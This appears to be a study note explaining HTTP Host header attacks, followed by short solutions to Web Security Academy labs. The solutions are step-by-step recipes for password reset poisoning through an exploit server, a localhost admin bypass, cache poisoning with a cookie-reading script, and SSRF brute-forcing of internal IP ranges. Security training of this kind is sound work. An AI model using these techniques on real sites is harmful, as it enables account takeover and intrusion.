 # 👾 HTTP Host header attacks

## 🔹 What is the HTTP Host header?
- When you type a website like https://example.com into your browser, your browser sends a request to the server.   - But here’s the thing:
     - Many websites share the same IP address (like apartments in a single building).
     - The Host header in HTTP is basically the part of the request that says “Hey server, I want the website example.com, not the other sites living on the same IP.”
     - 👉 Example:
     ```bash 
     GET /index.html HTTP/1.1
     Host: example.com
    ```
    - This tells the server, “Please give me the homepage of example.com.”

## 🔹 What is the purpose of the HTTP Host header?
- Its main purpose is virtual hosting.
- Since multiple websites can run on one server (same IP), the Host header makes sure the server knows which website you actually want.
- Without it, the server would be confused about which site’s content to send you.
- 👉 Think of it like telling a receptionist in a big office building “I’m here to see the Marketing Department (Host: example.com)” instead of just walking in blindly.

## 🔹 How does the Host header solve this problem?
- Imagine one IP = one big apartment building.
- Each flat = one website.
- When you arrive, you must tell the guard which flat (website) you’re visiting.
- That’s exactly what the Host header does — it guides the server to the right “flat” (site) inside a shared “building” (IP).

## 🔹 What is an HTTP Host header attack?
- Here’s where things get interesting 😈.
- If the application trusts the Host header too much, an attacker can tamper with it to trick the website into doing dangerous things.
- 👉 Example attack:
    ```
    GET /reset-password HTTP/1.1
    Host: attacker.com
    ```
- If the site uses the Host header to build password reset links, the victim might receive a link like: http://attacker.com/reset?token=12345
- 😱 Now the victim thinks it’s safe, but the attacker gets the reset link on their domain!

## 🔹 How do Host header vulnerabilities arise?
- They happen when developers don’t validate the Host header properly and just trust it blindly.
- Some risky places:
    - Password reset links (in emails)
    - Absolute URLs in redirects
    - Caching mechanisms
    - Security filters / firewalls
- If the Host header is manipulated, it can:
    - Point users to malicious sites
    - Poison caches (cache poisoning)
    - Bypass security checks
##  🔹 Exploiting Host header vulnerabilities
- Attackers can use this in different ways:
  1. Password reset poisoning – Hijacking reset links sent to users.
  2. Web cache poisoning – Serving malicious content to many users by tricking the cache.
  3. SSRF (Server-Side Request Forgery) – Forcing the server to make requests to internal systems.
  4. Bypassing access controls – If the app checks “Host” to allow/deny requests, attackers can fake it.

### ✅ In Simple words:

Host header = the “address label” telling the server which website you want.
Purpose = makes shared hosting possible.
Problem solved = without it, servers wouldn’t know which site to show.
Attack = bad guys forge this label to trick the website.
Vulnerability cause = developers trusting user input (Host header) without checking.
Exploitation = password reset hijack, cache poisoning, SSRF, phishing-style tricks.



# 📜 LABS

## Lab: Basic password reset poisoning

- Basic Password Reset Poisoning – Short Solution:
- Forgot Password (your account) → get email → reset password.
- In Burp, find POST /forgot-password, send to Repeater.
- Change Host to random → see email with random host → works.
- In Repeater, set:
    ```bash
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    username=carlos
    ```
    → Send.
- Exploit server → Access log → copy Carlos’s temp-forgot-password-token.
- Open your original reset URL → replace token with Carlos’s → set new password.
- Login as carlos → Lab Solved.


## Lab: Host header authentication bypass
- Send GET / to Repeater, change Host to anything → still 200 OK.
- Visit /robots.txt → find /admin. | use **dirb/feroxbuster** to find admin page
- Request /admin → access denied (local only).
- In Repeater, set Host: localhost → access admin panel.
- Change request to:
```
GET /admin/delete?username=carlos
Host: localhost
```
- → Send → Lab Solved.

## Lab: Web cache poisoning via ambiguous requests
- Send GET / to Repeater, add cache buster /?cb=123.
- Add second Host header → reflected in /resources/js/tracking.js.
- Create /resources/js/tracking.js on exploit server with:
    ```js
    alert(document.cookie)
    ```
- In Repeater, send:
    ```http
    GET / HTTP/1.1
    Host: LAB-ID.web-security-academy.net
    Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```
- Repeat until cached with your payload.
- Open cached page in browser 
  → alert() fires → Lab Solved.

## Lab: Routing-based SSRF
- Send GET / to Repeater, replace Host with Collaborator payload → send → confirm DNS hit in Collaborator.
- Send GET / to Intruder, set:
    ```http
    Host: 192.168.0.§0§
    ```
- Payload: Numbers 0–255, uncheck Update Host header to match target → start attack.
- Find 302 redirect to /admin, send to Repeater, request /admin → get admin panel.
- Copy CSRF token + session cookie from /admin.
- Craft:
    ```http
    POST /admin/delete?csrf=<TOKEN>&username=carlos
    Cookie: <session-cookie>
    ```
- → send → Lab Solved.

## Lab: SSRF via flawed request parsing

- Send the successful GET / request to Burp Repeater.
- Observe: Modifying Host directly blocks the request.
- Change request line to absolute URL:
    ```http
     GET https://YOUR-LAB-ID.web-security-academy.net/
    ```
- Modifying Host now causes a timeout (validating URL, not Host).
- Insert Burp Collaborator payload into the Host header and send.
- Confirm server-side request via Collaborator.
- Send this absolute URL request to Burp Intruder, uncheck Update Host header to match target.
- Use Intruder to brute-force Host: 192.168.0.x over /24 range to find the admin interface.
- Once found, send to Repeater and access:
    ```http
    - GET https://YOUR-LAB-ID.web-security-academy.net/admin- 
    ```
- Extract CSRF token and session cookie from /admin page.
- Modify request to:
    ```http
     GET https://YOUR-LAB-ID.web-security-academy.net/admin/delete?csrf=<TOKEN>&username=carlos
    ```
- Add session cookie to request, convert to POST, and send.
- Carlos deleted → Lab solved.


Send GET / to Burp Repeater.
Change path to /admin, Host to 192.168.0.1, and send → redirects to homepage.
Duplicate tab, group both tabs.
In Tab 1:
Set path to /.
Set Host to YOUR-LAB-ID.h1-web-security-academy.net.
Set Connection to keep-alive.
Change Send mode to Send group in sequence (single connection).
Send sequence → Second request gets admin panel.
Note /admin/delete, username, csrf from response.
In Tab 2, create:
POST /admin/delete HTTP/1.1Host: 192.168.0.1Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIEContent-Type: application/x-www-form-urlencodedcsrf=YOUR-CSRF-TOKEN&username=carlos

Send both tabs again in sequence → Lab solved.